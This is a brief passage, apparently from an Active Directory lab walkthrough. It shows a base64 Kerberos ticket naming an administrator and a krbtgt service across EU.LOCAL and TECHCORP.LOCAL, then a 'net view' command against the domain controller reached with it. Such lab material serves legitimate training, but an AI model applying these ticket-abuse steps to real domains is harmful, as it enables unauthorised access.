IuICq9DNPai+IxM6RvqMAoUZ/H+XsoJMHfMwwoHqLNMYr8AVaeJ964/2QnqAOlQA8BDtwi4DFGN+YYvgs+LdCSQs+tVA4i4JTG0aLR33FnvL1u7VWGP4/WUcYibTj6iXo4HuMIHroAMCAQCigeMEgeB9gd0wgdqggdcwgdQwgdGgKzApoAMCARKhIgQgfsOdv0l5ke4JizStK69SYoWLScaBiP6aRrOwSfP3vo2hChsIRVUuTE9DQUyiGjAYoAMCAQGhETAPGw1hZG1pbmlzdHJhdG9yowcDBQBApQAApREYDzIwMjUwMjI2MTg1NzA3WqYRGA8yMDI1MDIyNzAyNDUzOFqnERgPMjAyNTAzMDUxNjQ1MzhaqBMbEVVTLlRFQ0hDT1JQLkxPQ0FMqSMwIaADAgECoRowGBsGa3JidGd0Gw5URUNIQ09SUC5MT0NBTA==

With the obtained TGS, we now have the necessary permissions to access the file system on techcorp-dc from eu-dc using domain user privileges, successfully completing the objective.
net view \\techcorp-dc.techcorp.local